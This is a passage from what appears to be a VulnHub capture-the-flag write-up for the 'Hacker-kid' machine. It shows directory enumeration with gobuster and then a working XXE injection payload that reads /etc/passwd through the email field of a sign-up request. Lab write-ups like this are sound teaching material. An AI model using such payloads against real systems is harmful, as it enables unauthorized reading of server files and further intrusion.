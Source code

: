 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817171940.png)

This subdomain points to the first web application that we've enumerated.

**`blackhat.local`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817172245.png)

When we go to `/`, it just returned HTTP status "404 Not Found".

**We can enumerate hidden directories and files via content discovery:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|17:18:40(HKT)]
└> gobuster dir -u http://blackhat.local/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 40
[...]
/templates            (Status: 301) [Size: 320] [--> http://blackhat.local/templates/]
/javascript           (Status: 301) [Size: 321] [--> http://blackhat.local/javascript/]
[...]
```

When we go to `/templates/`, it respond us with a raw HTML template. Maybe it's used in TCP port 9999's web application?

Also, maybe there's a SSTI (Server-Side Template Injection) vulnerability in `current_user`?

**`hackerkid.blackhat.local`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817173431.png)

Oh! We can create a new account?

Let's try that:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817173515.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817173906.png)

Hmm? "Sorry, `siunam@attacker.local` is not available !!!"?

**Burp Suite's HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817174724.png)

So, because of the POST data is in XML (Extensible Markup Language) format, which makes me think of **`process.php` may vulnerable to XXE (XML External Entity) injection!**

Since the value of **`<email>` tag is reflected** to the response, **we can try to use an external entity in that tag!**

> For more information about XXE injection, you can read PortSwigger's Web Security Academy about XXE injection: [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe).

**Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>
    <name>siunam</name>
    <tel>123456789</tel>
    <email>&xxe;</email>
    <password>password</password>
</root>
```

This XXE injection payload will retrieve the content of `/etc/passwd`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817174934.png)

Nice! It's indeed vulnerable to XXE injection!
